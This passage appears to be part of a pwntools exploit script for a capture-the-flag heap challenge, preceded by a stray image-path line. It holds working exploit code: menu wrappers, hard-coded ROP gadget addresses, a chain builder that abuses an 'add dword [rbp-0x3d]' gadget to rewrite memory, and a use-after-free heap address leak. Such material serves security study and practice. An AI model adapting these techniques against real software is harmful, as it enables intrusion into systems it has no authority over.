 ```python
	menu(2)
	ru("To write object, input idx:")
	sl(str(index))
	ru("Now data offset:")
	sl(str(offset))
	ru("Now input your data:")
	s(content)

def show(idx):
	menu(3)
	ru("Which one do you want to read?")
	sl(str(idx))

def delete(idx):
	menu(4)
	ru("Which one do you want to destroy?")
	sl(str(idx))


#   0x4022dc <__do_global_dtors_aux+28>:	add    DWORD PTR [rbp-0x3d],ebx
#   0x4022df <__do_global_dtors_aux+31>:	nop
#   0x4022e0 <__do_global_dtors_aux+32>:	ret  
	
#   0x0000000000402f31 : call ptr [rbp - 0x3d]
magic_gadget=0x4022dc
stdout_addr=0x406040
stderr_addr=0x4061A0 
call_rbp=0x0000000000402f31
pop_rbx_r12_rbp_ret=0x000000000040284c #: pop rbx ; pop r12 ; pop rbp ; ret

#0x0000000000403121 : mov rax, qword ptr [rbp - 0x18] ; leave ; ret
def edit_func(index,payload):
	for i in range(0, len(payload), 8):
		edit(index, i, payload[i:i+8]+b"\n")

def edit_func1(index,offset,payload):
	for i in range(0, len(payload)):
		edit(index, i+offset, payload[i:i+1]+b"\n")

def modify(addr, offset,flag=False):
	if flag:
		print("offset=",offset)
		print(p32(offset, sign='signed'))
		pause()
	return flat([
        p64(pop_rbx_r12_rbp_ret),
        p32(offset, sign='signed') + p32(0),
		p64(0),
        p64(addr + 0x3d),
        p64(magic_gadget),
    ])

add()
delete(0)
add()
show(0)
ru("Data: ")
heap_addr=u32(rn(2).ljust(0x4,b"\x00"))<<12
lg("heap_addr")
add() #1
add() #2
add() #3
add() #4
```